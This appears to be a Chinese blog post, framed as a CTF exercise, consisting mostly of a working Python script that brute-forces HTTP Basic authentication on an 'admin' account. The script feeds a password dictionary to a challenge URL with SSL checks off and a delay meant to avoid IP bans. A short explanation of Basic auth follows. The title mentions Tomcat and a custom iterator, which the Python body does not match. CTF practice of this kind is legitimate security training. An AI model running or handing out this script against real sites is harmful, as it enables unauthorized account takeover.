

# tomcat 认证爆破之custom iterator使用 
> https://www.cnblogs.com/007NBqaq/p/13220297.html

    HTTP Basic认证暴力破解脚本
    用于尝试破解目标网站的admin账户密码

    import time
    import requests
    import base64
    import urllib3

    # 禁用SSL证书验证警告
    # 因为CTF环境或测试环境通常使用自签名证书，会触发警告
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    # 目标网站URL（HTTPS）
    url = 'https://5458f3f4-19b9-42ae-b0a9-18c2e0cd1226.challenge.ctf.show/index.php'

    # 密码列表，用于存储从字典文件中读取的所有密码
    password = []

    # ============= 密码字典读取部分 =============
    try:
        # 打开密码字典文件并读取所有密码
        # with语句确保文件在使用后自动关闭
        with open("最新网站后台密码破解字典.txt", "r") as f:
            # 使用列表推导式读取文件中的每一行
            # strip()移除每行末尾的换行符和空白字符
            password = [line.strip() for line in f.readlines()]
    except FileNotFoundError:
        # 如果字典文件不存在，输出错误信息并退出程序
        print("错误: 文件 '最新网站后台密码破解字典.txt' 不存在")
        exit(1)

    # ============= 暴力破解部分 =============
    # 遍历密码列表中的每一个密码
    for p in password:
        # 构造Basic认证的用户名:密码字符串
        # 格式: "username:password"
        # 注意：这里使用strip()后的密码，不包含换行符
        strs = 'admin:' + p
        
        # 构造HTTP请求头
        # HTTP Basic认证需要将用户名:密码进行Base64编码
        header = {
            'Authorization': 'Basic {}'.format(
                base64.b64encode(strs.encode('utf-8')).decode('utf-8')
            )
        }
        # 说明：Base64编码流程
        # 1. strs.encode('utf-8') 将字符串转换为字节
        # 2. base64.b64encode() 进行Base64编码
        # 3. .decode('utf-8') 将编码后的字节转换回字符串
        # 4. 最终格式: "Basic <base64编码后的用户名:密码>"
        
        # 发送HTTP GET请求到目标URL
        rep = requests.get(
            url=url,
            headers=header,
            verify=False  # 禁用SSL证书验证（仅用于测试/CTF环境）
        )
        
        # 请求间隔0.2秒
        # 目的：避免请求过于频繁被封禁IP，同时也给服务器留出处理时间
        time.sleep(0.2)
        
        # 检查HTTP响应状态码
        if rep.status_code == 200:
            # 如果状态码为200，说明密码可能正确（需要进一步确认响应内容）
            # 打印服务器响应内容
            print(rep.text)
            # 成功后退出循环，不再尝试其他密码
            break

    # ============= 原理说明 =============

    HTTP Basic认证工作原理：
    1. 服务器返回401 Unauthorized状态码，并在响应头中包含WWW-Authenticate: Basic realm="xxx"
    2. 客户端需要发送带有Authorization头的请求
    3. Authorization头格式: Basic <base64编码的用户名:密码>
    4. 服务器解码验证用户名和密码是否正确

    本脚本使用字典攻击方式：
    - 从密码字典文件中读取常见密码
    - 逐个尝试组合 admin:密码
    - 直到找到正确密码或遍历完所有密码

